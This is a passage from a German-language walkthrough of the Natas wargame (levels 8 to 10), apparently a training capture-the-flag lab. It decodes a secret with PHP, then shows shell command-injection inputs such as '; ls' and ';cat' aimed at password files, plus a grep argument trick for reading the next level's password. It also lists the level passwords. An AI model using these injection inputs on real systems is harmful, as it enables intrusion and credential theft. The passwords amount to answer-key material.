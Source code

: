 Dazu können wir den Interactiven Modus von PHP benutzen:

```shell
root@kali:~# php7.2 -a
Interactive mode enabled

php > echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));
oubWYf2kBq
```

Das Secret ist also **oubWYf2kBq**.

```shell
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## **Level 8 -> Level 9**

In Zeile 29 vom Quelltext finden wir folgendes: **passthru("grep -i $key dictionary.txt");** Wobei **$key** unser Input ist.  
Es wird also ein Linux Befehl ausgeführt. Das können wir ausnutzen. Suchen wir zum Testen mal nach **; ls**.  
Durch das Semikolon wird der **grep**-Befehl beendet und **ls** wird ausgeführt. Unter **/etc/natas_webpass** befinden sich die Passwörter für alle Level.  
Wir haben immer nur die Rechte, die Datei für das derzeitige und das nächste Level zu lesen. Benutzen wir:

```shell
; ls ../../../../etc/natas_webpass
```

Als Ausgabe werden uns die Passwort-Dateien aller Level aufgelistet. Lassen wir uns **natas10** doch mit **cat** ausgeben.

```shell
;cat ../../../../etc/natas_webpass/natas10
```

```shell
Output: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## **Level 9 -> Level 10**

Die Zeichen **;** und **&** werden in diesem Level gefiltert, weswegen wir hier nicht wie in Level 9 vorgehen können.  
Allerdings können wir uns **grep** von nutzen machen. Der Befehl grep -i nimmt als ersten Parameter das Suchwort und alle danach folgenden als Datei in der gesucht werden soll. Also können wir einfach **/etc/natas_webpass/natas11** als zu durchsuchende Datei hinzunehmen.

Geben wir **a /etc/natas_webpass/natas11** ein...  
Der Buchstabe **a** scheint nicht im Passwort vorhanden zu sein.

Probieren wir **u /etc/natas_webpass/natas11** aus.

```shell
Output:
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
[...]
```
